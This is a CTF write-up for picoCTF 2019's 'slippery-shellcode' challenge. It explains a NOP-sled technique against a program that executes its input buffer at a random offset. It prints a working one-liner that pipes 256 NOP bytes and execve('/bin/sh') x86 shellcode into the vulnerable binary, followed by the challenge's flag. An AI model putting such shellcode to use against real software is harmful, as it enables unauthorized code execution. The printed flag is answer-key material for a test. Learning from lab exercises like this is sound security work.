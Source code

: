 ## Writeup for 2019 picoCTF: slippery-shellcode  
Binary Exploitation, 200 points

### Problem:  
> This [program](https://2019shell1.picoctf.com/static/b32bc88726ab35fa8151726bb172d772/vuln) is a little bit more tricky. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/slippery-shellcode_1_69e5bb04445e336005697361e4c2deb0 on the shell server. [Source](https://2019shell1.picoctf.com/static/b32bc88726ab35fa8151726bb172d772/vuln.c).

### A NOP Sled:
This problem is similar to handy-shellcode, except `buf` isn't executed, but offset by a random number between 1 and 256 then executed from the offset location. To account for this, we will prepend a NOP sled (256 * `\x90`) to our `execve(/bin/sh)` shellcode (search on shell-storm.org) and send that in as `buf`. A NOP sled is a sequence of no-operations, each does nothing and moves on to the next instruction. Thus, regardless of what the random offset is and where in `buf` we would execute from, buf's NOP sled would always lead us to the `execve(/bin/sh)` portion.  

Note: `cat` after `echo...` to keep the input stream open.

### Solution:  
```
( echo -en "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80\n"; cat ) | ./vuln
cat flag.txt
```
**Flag: picoCTF{sl1pp3ry_sh311c0d3_2dd645d1}**
